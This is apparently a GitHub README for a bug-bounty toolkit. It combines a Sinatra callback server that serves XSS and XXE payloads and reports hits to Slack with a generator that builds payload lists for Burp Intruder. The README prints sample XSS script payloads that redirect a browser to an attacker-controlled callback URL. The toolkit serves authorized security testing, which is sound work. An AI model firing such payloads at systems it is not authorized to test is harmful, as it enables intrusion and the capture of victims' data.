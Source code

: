 # :boom: Bug bounty in a box

This repository contains all\* that you should need to get up and running to test for bugs against your targets.

\* Ok, literally not _everything_ but it's a good start!

## :vertical_traffic_light: Project Status

This is by no means "production ready"; there are still some server configuration options that need to be explored before this should be run in production.

### :shipit: To-do list

1. Productionize the Sinatra callback server
1. Add more payloads!
1. Add more endpoints!
1. Add "Development" guide

## :running: Quickstart

To get up & hacking, you'll need to:

1. Move the configuration sample: `mv config/application.yml.sample config/application.yml`
1. Edit the `config/application.yml` to your preferences
1. Install the gems: `bundle install`
1. Start the server: `ruby app.rb`
1. Move the payload sample: `mv payloads/xss.yml.sample payloads/xss.yml`
1. Generate the payloads: `ruby generate_payloads.rb --callback=YOUR_SERVER_URL --target=YOUR_TARGET`
1. Use `payloads/xss.txt` in Burp's Intruder (or something similar)
1. Cross your fingers...
1. Profit!

### :whale: Docker Quickstart

_Note: You cannot currently generate payloads with the Docker container. The Docker container only runs the server._

To get up & running in Docker, clone this repository and run the following:

```bash
mv config/application.yml.sample config/application.yml
vim config/application.yml # Edit your config values!
mkdir -p logs
docker build -t bbb . && docker run -d \
-v $(pwd)/config/application.yml:/app/config/application.yml \
-v $(pwd)/logs/:/app/logs/ \
-p 4567:4567 \
-e "APP_ENV=production" \
bbb
```

Then, you should be able to `curl localhost:4567` and see the hello world!

## :information_desk_person: How does this work?

This "bug bounty in a box" has two different components:
1. A payload callback server
1. A payload generator

### :pager: Callback Server

The callback server, written in Ruby & using [Sinatra](http://sinatrarb.com/), currently has the following capabilities:

* Callback: A callback with a payload & target parameter will log the "callback" to a on-server text log as well as send a Slack message to a Slack webhook. (`/callback`)
* Payloads: A payload file of your choice that will contain your callback URL. (`/payload`)
    * Currently supports:
        * JavaScript (`js`) for XSS
        * SVG (`svg`) for XSS
        * XML (`xml`) for XXE
* Redirect: Redirects to a specified URL in the redirect GET parameter. (`/redirect`)
* Unauthorized: Throws a 401 for non-OPTIONS & non-HEAD requests. Also accepts a content_type parameter to return a specific content type. (`/unauthorized`)

#### Configuring the server

You can configure the server in `config/application.yml`! See below for the different configuration options.

##### Slack

In order to receive Slack callbacks, you'll need to set the appropriate `slack_url`. To generate an incoming webhook for your Slack instance, check out [Slack's Help Center](https://get.slack.help/hc/en-us/articles/115005265063-Incoming-WebHooks-for-Slack).

##### Logging

If you'd like to change either the frequency of the log rotation or the log filenames, check out the configuration file.

### :smiling_imp: Payload Generator

The payload generator uses `.yml` files to generate a `.txt` files that contain a list of payloads that can be used in a tool like Burp Intruder.

#### Running the payload generator

Before running the payload generator, make sure you have some properly formatted `.yml` files in the `payloads` folder! After you've done that, you'll need to run the payload generator with the `--callback` and `--target` flags like such:

```bash
ruby generate_payloads.rb --callback=localhost:4567/callback --target=www.example.com
```

Then, check out the `payloads` folder for the `.txt` file with a list of payloads!

#### Configuring payloads

In order to add a new class of payloads, just create a new `.yml` file with the following:

```yaml
name: XSS
payloads:
  - description: A simple XSS payload
    payload: <script>document.location='CALLBACK_URL'</script>
  - payload: <script>document.location="CALLBACK_URL"</script>
```

The `CALLBACK_URL` will be replaced with whatever is passed in with the `--callback` flag with some added parameters of (1) a callback description & (2) the target.

## :raised_hands: Contributing

Want to contribute? Great! Here's what you do:

1. Fork this repository
1. Push some code to your fork
1. Come back to this repository and open a PR
1. After some review, get that PR merged to master
1. :tada: Thank you for your contribution!!

Feel free to also open an issue with any bugs/comments/requests!
